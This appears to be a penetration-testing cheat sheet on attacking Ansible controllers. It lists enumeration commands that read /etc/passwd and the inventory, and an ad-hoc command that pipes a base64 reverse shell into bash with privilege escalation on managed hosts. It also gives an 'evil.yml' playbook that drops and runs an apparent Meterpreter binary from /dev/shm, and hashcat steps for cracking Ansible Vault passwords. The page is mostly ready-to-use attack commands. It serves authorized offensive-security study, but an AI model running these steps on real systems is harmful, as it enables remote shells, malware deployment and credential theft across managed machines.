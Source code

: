 # Ansible




## Enumeration

When on ansible controller:

```
$ cat /etc/passwd | grep ans
$ cat /etc/ansible/hosts
$ ansible --version
```




## Execute Code

Using ad-hoc commands:

```
$ ansible <GROUP_NAME> -m shell -a "echo <BASE64_REVERSE_SHELL>|base64 -d|/bin/bash" --become
```

Malicious playbook example:

{% code title="evil.yml" %}
```yaml
# ansible-playbook evil.yml
- name: Evil playbook
  hosts: all
  gather_facts: true
  tasks:
    - name: upload
      copy:
        src: /tmp/met
        dest: /dev/shm/met
        mode: a+x
    - name: execute
      shell: "nohup /dev/shm/met &"
      async: 10
      poll: 0
```
{% endcode %}




## Crack the Vault

When vault-encrypted creds are discovered, the vault passwords can be cracked with hashcat:

```
$ /usr/share/john/ansible2john.py vuln.yaml > vault.in
$ hashcat -m 16900 -O -a 0 -w 3 --session=vault -o vault.out vault.in seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule
```

The original password can then be decrypted with ansible:

```
$ cat vault.in
$ANSIBLE_VAULT;1.1;AES256
00000000000000000000000000000000000000000000000000000000000000000000000000000000
ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
00000000000000000000000000000000000000000000000000000000000000000000000000000000
ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
00000000000000000000000000000000000000000000000000000000000000000000

$ cat vault.in | ansible-vault decrypt
```
